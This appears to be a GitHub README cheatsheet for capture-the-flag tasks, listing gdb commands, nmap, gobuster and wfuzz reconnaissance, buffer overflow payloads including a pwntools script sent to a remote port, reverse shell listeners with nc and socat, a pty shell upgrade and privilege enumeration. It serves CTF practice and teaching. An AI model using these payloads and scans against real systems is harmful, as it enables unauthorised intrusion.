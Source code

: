 # ctf-cheatsheet
This repo comprises useful code bytes for solving common ctf tasks.

## linux binary debugger [gdb]
with peda plugin: https://github.com/longld/peda
###### useful commands
```bash
gdb ./file        # open binary in gdb
run               # r: run binary from start till to first breakpoint
break *0x080492c0 # set breakpoint to address
break main        # set breakpoint to beginning of main() function
info break        # show all breakpoints
-> del 1          # delete first breakpoint
continue          # c: continue execution till next breakpoint
next              # n: execute one line
x/300xb $esp      # show 300 bytes from stack (esp)
```

## linux network
##### change hosts file
```bash
sudo nano /etc/hosts
```
##### reverse shell exploits
https://gtfobins.github.io/
##### listen for reverse shell exploits
```bash
nc -lvp 1234
# or
socat file:`tty`,raw,echo=0 tcp-listen:12345
```
##### portscan
###### nmap, initial scan (scans ~1000 scans)
```bash
nmap -Pn -n -oN nmap_initial.txt 10.10.10.10
nmap -sV -sT -sC -o nmap_initial2.txt 10.10.10.10
```
###### nmap, full port scan
```bash
namp -A -p- -oN nmap_full.txt 10.10.10.10
```
###### nmap, target scan on port 20 and 80
```bash
nmap -Pn -n -p22,80 -sC -sV -oN nmap/targeted 10.10.10.10
```
##### scan for folders and files
###### gobuster, search for folders
```bash
gobuster dir -u domain.com -w /home/dir/wordlist.txt
```
###### gobuster, search for files (.txt / .php / etc)
```bash
gobuster dir -u domain.com -w /home/dir/wordlist.txt -x txt
```
##### scan for subdomains
1) add domain to hosts
2) run wfuzz (here: hide results with code 301)
```bash
wfuzz -c -w /home/path/subdomains.txt -u "http://domain.com" -H "Host: FUZZ.domain.com" -t 50 --hc 301
```
##### http GET/POST methods
###### curl GET with --data 
```bash
curl --get -d name=admin -d shoesize=12 http://example.com/
```
###### curl POST with --data 
```bash
curl -d name=admin -d shoesize=12 http://example.com/
```
###### wfuzz enumerate POST with --data
```bash
wfuzz -c -d "username=FUZZ&password=n00bsec" -w /usr/share/seclists/Usernames/Names/names.txt -u http://10.10.10.73/login.php
```

## buffer overflow
##### execute locally, string as text input
###### bash
```bash
run <<< $(python -c 'print(188*"\x41" + "\xe2\x91\x04\x08" + "\x43" * 4 + "\xef\xbe\xad\xde"+ "\x0d\xd0\xde\xc0" )')
```
##### execute remotely, string as text input
###### bash
```bash
echo $(python -c 'print(188*"\x41" + "\xe2\x91\x04\x08")') | nc 123.123.123.123 32123
```
###### pwntools
```bash
from socket import socket
from pwn import *
ip = "sub.domain.com"
port = 1234
ret = 0x080491e2
no = 0x32432342
para_1 = 0xdedebebe
para_2 = 0xc0c00d0d
payload_len = 200 + 20
payload = "A" * payload_len
payload += p32(ret)
payload += p32(no)
payload += p32(para_1)
payload += p32(para_2)
r = remote(ip, port)
r.recvline()
r.sendline(payload)
r.interactive()
```

## linux privileges
##### upgrade shell with python
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```
##### enumerate linux system (for example with www-data user)
```bash
https://github.com/rebootuser/LinEnum
```
##### get current user
```bash
whoami
```
##### check, what can be executed with root
```bash
sudo -l
```

## python packages
##### build python package
```bash
python3 setup.py sdist bdist_wheel
```

##### upload with twine
```bash
python3 -m twine upload --repository-url http://pypi.domain.com:8080 /home/path/dist/* --verbose
```
-> enter username and password

### good writeupts:
https://noobsec.net/hackthebox/htb-falafel-writeup-w-o-metasploit/